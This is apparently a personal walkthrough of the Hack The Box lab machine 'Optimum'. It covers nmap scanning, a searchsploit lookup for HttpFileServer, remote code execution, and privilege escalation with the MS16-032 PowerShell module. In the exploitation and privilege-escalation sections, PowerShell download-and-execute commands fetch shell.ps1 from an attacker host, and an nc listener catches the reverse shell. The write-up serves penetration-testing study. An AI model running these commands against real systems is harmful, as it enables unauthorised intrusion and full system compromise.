 Optimum
========================

# Enumeration

    sudo nmap_enum 10.10.10.8 | tee nmap_output.txt
    
![qownnotes-media-LyrPnO](../../../media/qownnotes-media-LyrPnO.png)

    
    sudo nmap -sU -p 53,161,111,137,139,500,2049 -Pn 10.10.10.8 | tee nmap_udp_output.txt

    sudo nmap -p- -Pn -T5 -n 10.10.10.8 | tee nmap_fullportstcp_output.txt]
    
![qownnotes-media-xPcWJa](../../../media/qownnotes-media-xPcWJa.png)


    firefox http://optimum.htb

![qownnotes-media-SqtuQf](../../../media/qownnotes-media-SqtuQf.png)

    searchsploit httpfileserver

![qownnotes-media-kzEYno](../../../media/qownnotes-media-kzEYno.png)

# Exploitation


    python exploit.py 10.10.10.8 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.5:8000/shell.ps1')"
    nc -nlvp 81 

![qownnotes-media-ayBbJm](../../../media/qownnotes-media-ayBbJm.png)



# Privilege Escalation
    
    systeminfo

Windows server 2012 r2

<https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-MS16032.ps1>
    
    invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.5:8000/shell.ps1')"

![qownnotes-media-QKBsQA](../../../media/qownnotes-media-QKBsQA.png)


![qownnotes-media-gQhNke](../../../media/qownnotes-media-gQhNke.png)

